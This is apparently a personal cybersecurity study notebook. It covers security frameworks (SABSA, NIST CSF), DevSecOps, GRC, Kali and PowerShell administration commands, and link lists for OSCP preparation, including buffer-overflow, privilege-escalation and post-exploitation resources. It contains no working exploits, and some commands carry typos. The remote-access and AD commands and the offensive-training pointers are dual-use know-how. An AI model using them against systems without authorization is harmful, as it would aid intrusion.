. https://www.youtube.com/watch?v=DuIXbz30mqk[Think You're Compromised? What Do We Do Next?]

<<<
== Enterprise Architecture
Source: https://www.youtube.com/watch?v=NUD-LXUE4tM 

*Enterprise* is any organization that is large or small with a collaborative collection of sub-organizations with a shared set of objectives.

*Architecture* is a designed structure of something.  A description of the structure (components) and behaviors (Processes) of a system.  It is also an activity required to produce such a description.

*Enterprise Architecture* is documentation describing the structure and behaviour of an enterprise including its information systems.  Also a process for describing an enterprise(including its information systems), then planning and governing changes to improve the integrity and flexibility of the enterprise.

Frameworks provide guidelines on how to implement enterprise architecture.  Frameworks address following areas:
* Content (strcuture, metamodel)
* Process (activities)
* Organization (roles, people)

Some of the frameworks are:

* TOGAF (covers all three, content, process, and organization)
* Zachman (Purely covers content)
* SABSA
* DODAF
* MODAF

Large organizations are complex, hence they can be broken down into following typical domains

. Business (Why organization exisit, objectives, goals, strategic thinking, capabilities, processes, functions, organizatinal structure)
. Data
. Application(s)
. Technology

Following domains cut across the typical domains:

. Security
. Compliance


*Architecture Activities* typically when you are performing any sort of change, you have to document the current state and future state.  This represents the strategic vision of the organization, where they want to be in 3-5 years time.

Enterprise architecture is about overseeing these changes by defining various architecture principles and standards.  Architects then govern those changes to ensure that the standards and principles are being followed.

=== SABSA
SABSA is a framework that supports the business in reaching its goals.  It is the leading methodology for developing business operational risk-based architectures.  SABSA stands for Sherwood Applied Business Security Architecture.

It provides a framework for developing risk driven enterprise information security and information assurance architectures.

It also helps to deliver security infrastructure solutions that help critical business initiatives.

The SABSA methodology provides guidance for aligning architecture with business value, it also addresses a critical need for greater integration between security and enterprise architecture within organizations.

With SABASA organizations can achieve that important risk reward balance using a range of frameworks, models, methods, and process to manage risk and measure performance.

The SABSA model is the key to this and covers the whole lifecycle of operational capabilities.  The SABSA model has six layers:

. Contextual Architecture: The Business View (Business wisdom and business decision making)
. Conceptual Architecture: The Architect's vision (The 'big picture', business attributes profiel and risk objectives)
. Logical Architecture: The Designers Vision (Information, services, processes, applications)
. Physical Architecture: The builders/constructors view(Data mechanisms, infrastructure, platforms)
. Component Architecture: The Trademan's View (Products, Tools, Specific Standards, Technologies)
. Security Services Management Architecture: The Service Manager's view (Service management activities, processes and monitoring)

Each of the layers of the architecture model are supported by a vertical analysis based on six key questions

* What
* Why
* How
* Who
* Where
* When

The SABSA framework is flexible, scalable and applicable to any industry sector.  Instead of replacing other risk based standards, it can be combined with TOGAF, COBIT and ITIL to create an integrated compliance framework.

SABSA provides organization with "enterprise operational risk management architecture" that can be completely tailored to a specific business model. 

SABSA's governance model provide a control feedback loop

. Strategy & Planning
. Design
. Implement
. Management & Measure

<<<
== NIST Cyber Security Framework(CSF)

Key functions are

Identify:: involves determining your IT risks and securing the necessary budget and resources to defend your digital resources. Your decisions should be based on the contextualized threat intelligence you collect. In addition to assessing internal IT risk, this goal should include analyzing the security competence of third-party vendors and any customers with which you exchange data. It’s critical to identify those that represent an elevated risk to your organization’s systems and data. It’s also important to bring in threat intelligence on the risks your competitors face because you likely face similar threats.

Protect:: is about deploying the required security controls (technologies and processes) to defend your digital assets, and then validating that these controls align to the risks you identified. For example, controls should be applied to set up defenses against exploit kits, as well as undisclosed zero-day and embargoed vulnerabilities, as identified by your threat intelligence platform. You also need to safeguard against the exploitation of high-risk vulnerabilities in your technology stack.

Detect:: revolves around your ability to block attacks before they impact digital assets. Threat intelligence helps by enabling you to identify and research the evolution and trends of malware families with high risk to your organization. In addition to identifying the security patches to apply, you will also gain intelligence on which systems are most susceptible and which are being actively targeted and exploited.

Respond:: refers to how fast your security team reacts to breaches; even the strongest security postures do not offer a 100% guarantee that cyberattacks will not succeed. Threat intelligence assists in the response process by evaluating the data exposure and the digital asset damage your organization is facing. This can then be reported to all affected parties and stakeholders — not only for remediation teams, but also for non-technical personnel who may need to prepare for the impact on day-to-day operations and the potential impact on vendors, clients, and perhaps even the overall market in which you operate.

Recover:: is all about how quickly the damage inflicted upon the organization’s technology stack and surrounding ecosystem can be mitigated, including any and all operations that must be restored as the security incidents are being closed out. Threat intelligence helps pinpoint the specific measures the security team should take in order to quarantine infected systems and inoculate the malicious elements coursing through the environment. The ultimate goal in the case of a breach, of course, is to quickly and safely restore the digital assets back to fully functioning systems with all security measures intact.

Top two are proactive measures, and bottom three are reactive measures.

<<<
== Security Architecture

=== Network Architecture

=== Application Architecture

=== System Architecture

<<<
== Dev, Sec, Ops

Development, Operations, and Security operate as silos. 

*CiCd* or Continuous Integration and Continuous Delivery is key for *DevSecOps*

image::knowyourapplication.png[title="Know your application"]

Some activities to consider for DevSecOps:

* Threat Modeling
* Attack Surface Evaluation
* Static & dynamic code analysis
* Penetration Testing
* Security Code Reviews
* Fuzz Testing

Teams who are considering DevSecOps should think about:

* Frameworks & Tools
* Automating core security tasks
* Embedding securit controls and processes

Five principles for Securing DevOps

* Automate Security In
* Integration to fail quickly
* No false Alarm
* Build Security Champions
* Keep Operational Visibility



=== OWASP Top 10 App Sec Risks

. Injection
. Broken Authentication
. Sensitive Data Exposure
. XML External Exposures (XXE)
. Broken Access Control
. Security Misconfiguration
. Cross Site Scripting
. Insecure Deserialization
. Using component with known vulnerabilities
. Insufficient Logging/Monitoring

=== Real-Word Top 10 Attacks

. Direct Object Reference
. Forceful Browsing
. Null Byte Attack
. Command Injection
. Feature Abuse
. Evasion Techniques
. Subdomin Takeover
. Misconfiguration
. Cross Site Scription
. SQL Injection 

<<<
== Governance, Risk, & Compliance

A documented process must be followed to ensure compliance to security policy and to highlight risks that might be introduced when security policy requirements are not adhered to.  Some of the GRC functions are:

* Enterprise Risk Management
* IT Risk Management
* Integrated Risk Management
* Operational Risk Management
* Compliance
* Enterprise GRC Management
* Vendor/Third-Party Risk Management
* Business Continuity
* Financial Audit

=== Enterprise Risk Management

* Not necessarily covered by insurance
* Multi-dimensional assessment
* Analyzes material risks and how they relate
* Spans the entire organization ("holistic")
* Proactive & continuous
* Considers both upside and downside
* Focuses on business goals, adding value and more
* Embedded in culture and mindset 

<<<
== Kali Reference

. Add user and give root privs
.. login as root and the user

	useradd -m <username>

.. Assign a password to the user

	passwd <username>

.. Add a user to sudoers file

	usermod -a -G sudo <username>

.. Change user shell to bash

	chsh -s /bin/bash <username>

. Shrink partition
.. Login to your system as root and open a terminal window.  Lets assume the paritition is /dev/xxx/yyy and is currently 40G, and you want to reduce it to 30G

	df -k
	unmount /dev/xxx/yyy
	e2fsck -fy /dev/xxx/yyy
	resize2fs /dev/xxx/yyy 30G
	lvreduce -L 30G /dev/xxx/yyy
	resize2fs /dev/xxx/yyy
	mount /dev/xxx/yyy

. Expand partition

Lets assume the file system is /dev/xxx/yyy. Current size is 10G and you want to add another 10G
.. Show space in current Volume group, look for Free PE/Size and make note of it, in our case it

	vgdisplay

.. Extend the logical volume

	lvextend -L+10G /dev/xxx/yyy

.. Resize the filesystem

	resize2fs /dev/xxx/yyy

<<<
== Business Resilience
For a business to be sustainable it has to be able to bear any hardship it faces.  These hardships or risks can be financial, environmental, labor, suppliers, intellectual property , and technical.  Hence every business has to ensure it has documented plans on how to address the risks and become resilient.

In order for a business to be resilient, it has to ensure it follows Business Continuity Management(BCM) strategies and methodologies. BCM itself can be split into two general areas Business Continuity and Disaster Recovery.

=== Business Continuity
Some of the strategies and methodologies that a business implements are directly associated to 

==== Conference Call Guidelines
. Use a pre-conferencing/green room/waiting room (This is already configured for Teams Meetings)
. Don't re-use conference access codes (This is already configured for Teams Meetings)
. Don't record the meeting unless necessary
. Do a role call to ensure only invited attendees are on the call
. Before sharing your screen ensure you close all confidential files/applications
. If it is a sensitive meeting, and you record it, ensure the recording is encrypted and stored in a location with limited user access
. If the recording is saved on the web platform ensure you download the recording and delete it from the web platform

*References*
. NIST Guidance: https://www.nist.gov/system/files/documents/2020/03/17/Conference%20Call%20Security%20Graphic.pdf

==== Remote Working Guidelines
*Employees*

. Greet your team members using TEAMS chat feature
. Use camera when in meetings
. When in doubt call the team member
. Keep the team connected using Teams Chat and other means as per team norms.
. Over communicate
. Lock your computer when you walk away from your computer  (Windows Key + L)
. Inform you team if you are going to be away from your computer for an extended period
. Avoid multitasking

*Leader*

. Establish team norms:
.. Do we meet more frequently as a team? When? How long?
.. If we use an online meeting platform, does everyone turn on their video camera?
.. How do we ensure people are present and not multitasking?
.. What is the recommended response time to a text or email? Should we use the phone more?
.. How will we share sensitive information? Email? 
. Ensure your team knows what is the best method to contact you
. Conduct Morning Huddles
. Frequent Check-ins
. Use Teams to share for quick feedback

*References*

. https://www.forbes.com/sites/danpontefract/2020/03/01/in-the-wake-of-coronavirus-heres-how-to-lead-remote-employees/#1d44ec7152a4
. https://www.timedoctor.com/blog/run-a-remote-team/
	


=== Disaster Recovery


<<<
== Powershell Reference

. https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html[Powershell Logging]
. https://github.com/PowerShell[Powershell 7]
. http://shop.oreilly.com/product/0636920024132.do[Windows Powershell Cookbook]
. https://www.youtube.com/watch?v=plqpmZruOYk[Complete Powershell in one video-beginner to professional powershell scripting]
. https://adamtheautomator.com/get-adobject/[Get-adobject]
. https://lazywinadmin.com/[Lazy Windows Administrator]
. https://www.windowscentral.com/how-create-and-run-your-first-powershell-script-file-windows-10[How to create and run a PowerShell script file on Windows 10]
. https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing[Command Line Process Auditing]
. Configure IP Address on a computer

	New-NetIPAddress -InterfaceAlias Ethernet -IPAddress 10.10.10.10 -PrefixLength 24 -DefaultGateway 10.10.10.1

. Configure DNS on a computer

	Set-DNSClientServerAddress -InterfaceAlias "Ethernet" -ServerAddress 172.16.0.10

. IP v6 - Current Status

	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’

. IP v6 - Disable 
	
	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’ | Disable-NetAdapterBinding -ComponentID ‘ms_tcpip6’ -PassThru

. Rename computer

	Rename-Computer <new name>

. Restart computer

	Restart-Computer

. Shutdown computer

	Shutdown-Computer

. Set log application, system, and security log files to 100MB and roll over after 21 days

	limit-eventlog -logname "application" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "security" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "system" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 

. Enable Remote Desktop

	set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0

. Add firewall rules to allow Remote Desktop traffic

	Enable-NetFirewallRule -DisplayGroup “Remote Desktop”

. Check for updates and install updates

	get-hotfix|grid-view
	Install-Module -Name PSWindowsUpdate
	Get-Package -Name PSWindowsUpdate
	Install-WindowsUpdate -MicrosoftUpdate -AcceptAll -AutoReboot

. Set Date & Timezone

	set-date "1/1/2020 10:10 PM"
	(get-WmiObject win32_timezone).caption
	TZUTIL /s "Eastern Standard Time"

. Add a first domain controller

	Install-windowsfeature -name AD-Domain-Services -IncludeManagementTools
	Get-Command -Module ADDSDeployment
	Create Root Domain: Install-ADDSForest -DomainName “corp.momco.com”

. Add DNS Primary Zone

	Add-DnsServerPrimaryZone -NetworkID 192.168.64.0/24 -ZoneFile “192.168.64.2.in-addr.arpa.dns”
	Add-DnsServerForwarder -IPAddress 8.8.8.8 -PassThru

. Confirm DNS is working

	Test-DnsServer -IPAddress 192.168.64.2 -ZoneName "corp.momco.com"

. Add computer to a domain

	Add-Computer -DomainName <domain name>

. Add a second domain controller 

	Add-WindowsFeature AD-Domain-Services
	Install-ADDSDomainController -InstallDns -Credential (Get-Credential "CORP\Administrator") -DomainName "corp.contoso.com"

. Locate FSMO Roles

	Get-ADForest DOMAINNAME | FT SchemaMaster
	Get-ADForest DOMAINNAME | FT DomainNamingMaster
	Get-ADDomain DOMAINNAME | FT PDCEmulator
	Get-ADDomain DOMAINNAME | FT InfrastructureMaster
	Get-ADDomain DOMAINNAME | FT RIDMaster

. Add FSMO Role to a new computer

	Move-ADDirectoryServerOperationMasterRols - Identity NEW-DC -OperationMasterRole RIDMaster,InfrastrcutureMaster,DomainNamingMaster -Force

. List all accounts where password is not set to expire

	Search-ADAccount -PasswordNeverExpires | out-gridview

. List all accounts not used in last 90 days & Export to CSV

	Import-Module ActiveDirectory
	Search-ADAccount –AccountInactive -TimeSpan 90.00:00:00 -UsersOnly | Select -Property Name,DistinguishedName,LastLogonDate |	Export-CSV "C:\\InactiveADUsers.csv" -NoTypeInformation -Encoding UTF8

. Create a VM

	New-VM -MemoryStartupBytes 2048MB -Name VMNAME -path "d:\folder" -VHDPath "d:\folder\name.vhdx"

. Assign VM Network

	Get-VM -Name VMNAME | Get-VMNetworkAdapter | Connect-VMNetworkAdapter -Swtichname 'SWITCHNAME'

. Checkpoint a VM

	Get-VM | Checkpoint-VM

. Ping alternate

	Test-NetConnection
	Test-NetConnection 8.8.8.8

. Traceroute alternative

	Test-NetConnection www.bing.com -traceroute

. Telnet to a port

	Test-NetConnection www.bing.com -Port 80
	Test-NetConnection smtp.com -Port 25

. View All services in a GUI

	Get-Service | Out-Gridview

. Service management

	Stop-Service <service name>
	Start-Service <service name>
	Restart-Service <service name>
	Set-Service <service name> <-Change Service properties

. Enable/Disable Firewall

	set-netfirewallprofile -profile domain,public,private -enabled true/false

. Add a firewall rule

	New-NetFirewallRule -DisplayName "Allow Inbound Port80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
	New-NetFirewallRule -DisplayName "Block Outbound Port80" -Direction Outbound -LocalPort 80 -Protocol TCP -Action Block

. Password Reset

	$newpwd = ConvertTo-SecureString -String "P@ssw0rd" -AsPlainText -Force
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset -PassThru | Set-ADuser -ChangePasswordAtlogon $True

. Install RSAT Tools:

	Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
	or
	ADD-WindowsFeature RSAT-Role-Tools

. Change color of error text:

	$host.PrivateData.ErrorForegroundcolor = 'green'

. Help for all commandlets with service in the name:  
	
	help *service*

. Update help with latest modifications from Microsoft:

	Update-Help

. Show all help about a commandlet:
	
	Help <cmdlet> -full

. Show online help about a commandlet:
	
	Help <cmdlet> -online

. To show a gui for a cmdlet:
	
	Show-command <cmdlet>

. Show event log settings:
	
	get-eventlog -list

. Show top ten biggest processes:

	Get-process| sort-object -property pm -descending | select-object -first 10

. Get all objects in a cmdlet:
	
	Get-service|get-member

. Show services that are running:
	
	Get-service| where-object -FilterScript { $_.Status -eq 'Running'}

. Gsv is alias for get-service
. ? Is alias for where
. Find out what cmdlet an alias is:

	Help gsv or get-alias gsv

. List all alias:

	Gal

. The Get-PSProvider cmdlet gets the Windows PowerShell providers in the current session. You can get a particular drive or all drives in the session. Windows PowerShell providers let you access a variety of data stores as though they were file system drives. The Get-PSDrive cmdlet gets the drives in the current session. You can get a particular drive or all drives in the session. This cmdlet gets the following types of drives:
.. Windows logical drives on the computer, including drives mapped to network shares.
.. Drives exposed by Windows PowerShell providers (such as the Certificate:, Function:, and Alias: drives) and the HKLM: and HKCU: drives that are exposed by the Windows PowerShell Registry provider.
.. Session-specified temporary drives and persistent mapped network drives that you create by using the New-PSDrive cmdlet.
Beginning in Windows PowerShell 3.0, the Persist parameter of the New-PSDrive cmdlet can create mapped network drives that are saved on the local computer and are available in other sessions. For more information, see New-PSDrive. Also, beginning in Windows PowerShell 3.0, when an external drive is connected to the computer, Windows PowerShell automatically adds a PSDrive to the file system that represents the new drive. You do not need to restart Windows PowerShell. Similarly, when an external drive is disconnected from the computer, Windows PowerShell automatically deletes the PSDrive that represents the removed drive.

. Show contents of a file:

	Get-content or gc

. List modules available:

	Get-module -List Available

. To import a module: 
	
	import-module <modulename>

. To list all commands available in a module: 
	
	get-command -module <modulename>

. Add roles & Features

	Install-WindowsFeature -IncludeAllSubfeature -IncludeManagementTools File-Services

. Install .Net Framework

	Install-WindowsFeature Net-Framework-Core -source d:\sources\sxs

. Repair trust relationship of a computer

	test-computersecurechannel -credential domain\admin -Repair

. To list all computers in AD:

	get-adcomputer -filter *|select -ExpandProperty name

. List services running on all computers in your domain:

	invoke-command -ComputerName (get-adcomputer -filter *|select -ExpandProperty name) -scriptblock { get-service }

. Implicit Remoting:

	Establish a session with remote computer: $session = New-PSSession -ComputerName ABCD
	Invoke-Command -Session $session -ScriptBlock { import-module activedirectory }
	Import-PSSession -Session $session -Module ActiveDirectory
	Close session: get-PSSession | remove-PSSession

. Invoke a powershell session on a remote computer:

	Enter-PSSession -ComputerName ABCD

. Invoke Troubleshooting pack:

	import-module troubleshootingpack
	get-troubleshootingpack c:\windows\diagnostics\system\Networking
	get-troubleshootingpack c:\windows\diagnostics\system\Networking| Invoke-TroubleshootingPack

. Replacement for ipconfig /all

	get-NetIPConfiguration

. Find out network adapter names and statistics

	get-NetAdapter
	get-NetAdapterStatistics

<<<
== Github Reference

=== Adding a new repository to github.com

* On the github.com page, click on 

image::github1.png[]
* Select "New Repository" 

image::github2.png[]
* Provide repository name in the provided field 

image::github3.png[]
* Click to create repository 

image::github4.png[] 
* Follow instructions on the page displayed on you local computer which has ssh access to github.

=== Creating a local folder on your computer

* Change Directory to the root folder where you want the GIT repository to be stored
* Clone the respository

	git clone <repository URL from git page>

=== What to do after renaming your github username?
After you have changed your github.com user name, you will have to relink all your local github repositories to the github on the web.  Here are the steps:

. Open GitCMD or GitBASH
. Change directory to the repository where you have cloned the respository from the web
. Check where does this repository points:

	git remote -v

image::github-repo-now.png[]
. Change to new github repository

	git remote set-url origin git@github.com:secprivrisk/CyberSecurity.git

. Confirm the change by issuing the command:

	git remote -v

image::github-repo-new.png[]
<<<
== Cheat Sheets
. https://www.malwarearchaeology.com/cheat-sheets[Cheat Sheets to help you in configuring your systems]
. https://cheatography.com/tag/ir/[IR Cheat Sheets]
. https://digital-forensics.sans.org/community/cheat-sheets[SANS DFIR Community: Cheat Sheets]
. https://zeltser.com/cheat-sheets[IT and Information Security Cheat Sheets]
. https://www.sans.org/blog/4-cheat-sheets-for-malware-analysis/[4 Cheat Sheets for Malware Analysis]
. https://www.andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls/[Volatility Cheatsheet]


<<<
== Ethical Hacking References

=== By Mayur Parmar
Want resource for OSCP?
here is the material to clear OSCP.
All the best for your journey.
How to prepare for OSCP complete guide 

Below are 5 skills which you have to improve before registering for OSCP
> Learn basic of Computer Network, Web application, and Linux
> Learn Bash and Python scripting
> Enumeration is key in OSCP lab, I repeat Enumeration is key in OSCP Lab and in real world too
> Download vulnerable VM machines from vulnhub
> Buffer Overflow (BOF) exploitation

Below are the free reference before registration of OSCP 
> https://lnkd.in/fBcwnBF
> https://lnkd.in/fXtRZK5
> https://lnkd.in/fcHg29E
> https://lnkd.in/f2-wBQJ
> https://lnkd.in/fkFNATW

Below are the reference for Buffer overflow and exploit developmet for OSCP
> https://lnkd.in/fmmU_Uz
> https://lnkd.in/fZDh9Vd

For Bash Scripting 
> https://lnkd.in/fn2wpZ5

Transferring Files from Linux to Windows & post-exploitation
> https://lnkd.in/fSJ44Eb
> https://lnkd.in/fJUGq3s

Privilege Escalation:
> https://lnkd.in/f4jsZfa
> https://lnkd.in/fFAeE3g
> https://lnkd.in/fUx6HZQ
> https://lnkd.in/fDNJGHw
> https://lnkd.in/fqPJzMP
> https://lnkd.in/fixKjR6
> https://lnkd.in/f2Nz3_a
> https://lnkd.in/fpZcJT9


Some tips and tricks for OSCP Exam & write-ups.
https://lnkd.in/fWugM5F
https://lnkd.in/fs_dDJr
https://lnkd.in/fzh5M_V
https://lnkd.in/fV3m55b
https://lnkd.in/faWFaea
https://lnkd.in/fiFGmV9
https://lnkd.in/fShfYRe
https://lnkd.in/f9mKEgu
https://lnkd.in/fjuxWZ5
https://lnkd.in/ffett24
https://lnkd.in/fivVvaz
https://lnkd.in/f973szJ
https://lnkd.in/f8ec7z5



=== By Pethuraj M

Following references were posted on LinkedIn by https://www.pethuraj.in https://www.pethuraj.com 

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀 𝗙𝗼𝗿 𝗟𝗲𝗮𝗿𝗻𝗶𝗻𝗴 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗣𝗲𝗻𝘁𝗲𝘀𝘁𝗶𝗻𝗴
http://tiny.cc/s5Ig

• 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀-𝗳𝗼𝗿-𝗹𝗲𝗮𝗿𝗻𝗶𝗻𝗴-𝗛𝗮𝗰𝗸𝗶𝗻𝗴
http://tiny.cc/7OiG

• 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗖𝘆𝗯𝗲𝗿 𝘀𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗕𝗶𝗯𝗹𝗲
http://tiny.cc/0wGg

• 𝗖𝘆𝗯𝗲𝗿 𝗦𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/m6Ig

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/pqJg

• 𝗲𝘁𝗵𝗶𝗰𝗮𝗹-𝗵𝗮𝗰𝗸𝗶𝗻𝗴-𝗿𝗲𝗽𝗼𝘀𝗶𝘁𝗼𝗿𝘆
http://tiny.cc/IqYg

• 𝗙𝗿𝗲𝗲 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗲𝗕𝗼𝗼𝗸𝘀
http://tiny.cc/b6Rg


#cybersecurity #hackerone #bugcrowd #wapt #pentest #security #hacking #pentesting #bugbounty #owasp #burpsuite #ceh #oscp #ethicalhacking #infosec

== Terms Used
[horizontal]
ATT&CK:: Adversatial Tactics Techniques & Common Knowledge
APT:: Advanced Persistent Threat
CTF:: Capture The Flag
CTI:: Cyber Threat Intelligence
EDR:: Endpoint Detection and Response
ICS:: Industrial Conrol Systems
IOC:: Indicators of Compromise
LLMNR:: Link Local Multicast Name Resolution
Med-jacking:: is a new kind of cybersecurity threat to health care systems. Medjacking involves hacking into medical devices using backdoors to access software on the device.
mDNS:: Multicast Domain Name System
MDR:: Managed Detection and Response
MSSP:: Managed Security Services Provider
OCG:: Organized Criminal groups
OSINT:: Open Source Inteligence Tools: Gathering odata from open source or readily and freely available sources
PLC:: Programmagle Logic controller
SIGINT:: Signals Intelligence is the act of gathering information in transit by interception.
Smishing:: Phishing through SMS
TTP:: Techniques, Tactics, Procedures
UEBA:: User Entity Behaviorial Analytics
Vishing:: Phishing through voice calls
WPAD:: Web Proxy Auto Discovery Protocol

<<<
[bibliography]
== References

. Writing Position Papers: http://www.studygs.net/wrtstr9.htm 
. Cover Page graphic: https://www.pinterest.com/pin/352758583290504850/ 
. What is Malware? https://www.avg.com/en/signal/what-is-malware



